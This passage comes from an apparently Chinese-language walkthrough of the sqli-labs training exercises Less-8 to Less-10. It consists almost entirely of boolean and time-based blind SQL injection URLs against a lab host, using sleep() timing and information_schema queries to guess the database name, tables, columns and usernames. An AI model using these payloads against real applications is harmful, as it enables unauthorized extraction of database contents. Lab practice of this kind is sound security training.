 猜解记录

```
http://daishen.ltd:1112/Less-8/?id=1' and left((select username from users limit 0,1),1)='d' --+
```

# **Less-9** 

**GET - Blind - Time based. -  Single Quotes  (基于时间的GET单引号盲注)**



判断延时

```
http://daishen.ltd:1112/Less-9/?id=1' and sleep(3) --+
```

猜解库的长度

```
http://daishen.ltd:1112/Less-9/?id=1' and if(length(database())=8,sleep(3),1) --+
```

猜解库名

```
http://daishen.ltd:1112/Less-9/?id=1' and if(left((select database()),1)='s',sleep(3),1) --+
```

猜解表名

```
http://daishen.ltd:1112/Less-9/?id=1' and if(left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='e',sleep(3),1) --+
```

猜解字段名

```
http://daishen.ltd:1112/Less-9/?id=1' and if(left((select column_name from information_schema.columns where table_name='users' limit 0,1),1)='i',sleep(3),1) --+
```

猜解记录

```
http://daishen.ltd:1112/Less-9/?id=1' and if(left((select username from users limit 0,1),1)='d',sleep(3),1) --+
```

# **Less-10** 

**GET - Blind - Time based - double quotes (基于时间的双引号盲注)**



判断延时

```
http://daishen.ltd:1112/Less-10/?id=1” and sleep(3) --+
```
